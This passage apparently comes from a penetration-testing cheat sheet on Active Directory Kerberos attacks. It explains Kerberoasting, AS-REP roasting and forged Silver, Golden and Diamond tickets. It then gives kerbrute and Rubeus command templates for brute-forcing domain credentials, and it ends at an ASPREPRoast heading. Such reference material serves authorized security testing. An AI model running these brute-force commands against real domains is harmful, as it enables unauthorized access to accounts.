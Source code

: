 **Kerberoasting**

> https://csforza.gitbook.io/pentesting-articles-and-notes/windows/active-directory/privilege-escalation/kerberoasting

> https://xedex.gitbook.io/internalpentest/internal-pentest/active-directory/post-compromise-attacks/kerberoasting

* All user accounts that have `Service Principal Names (SPN's)` set can be kerberoasted.
* Relatively silent technique because it leaves only one `4769 ID event` on the log.

**AS-REP Roasting**

> https://csforza.gitbook.io/pentesting-articles-and-notes/windows/active-directory/privilege-escalation/as-rep-roasting

> https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat

ASPREPRoast is about retrieving crackable hashes from `KRB5 AS-REP` responses for users without `kerberoast preauthentication` enabled. This isn't as useful as Kerberoasting, as accounts have to have `DONT_REQ_PREAUTH` explicitly set for them to be vulnerable and you are still reliant upon weak password complexity for the attack to work.

* `AS-REP roasting` is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected.
* Those hashes can then be cracked offline.

**Silver, Golden and Diamond Tickets**

* Silver Ticket is a forged service authentication ticket (Service Principal Name (SPN) and Machine Account Keys (Hash in RC4 or AES) needed). Silver Tickets do not touch the Domain Controller (DC).
* Golden Ticket is a Ticket Granting Ticket (TGT) and completely forged offline (KRBTGT Account Hash needed).
* Diamond Ticket is essentially a Golden Ticket but requested from a Domain Controller (DC).

#### Attacking Kerberos

> https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

**Bruteforce**

```c
$ ./kerbrute -domain <DOMAIN> -users <FILE> -passwords <FILE> -outputfile <FILE>
```

**With List of Users**

```c
C:\> .\Rubeus.exe brute /users:<FILE> /passwords:<FILE> /domain:<DOMAIN> /outfile:<FILE>
```

**Check Passwords for all Users in Domain**

```c
C:\> .\Rubeus.exe brute /passwords:<FILE> /outfile:<FILE>
```

**ASPREPRoast**

**Check ASPREPRoast for all Domain Users (Credentials required)**
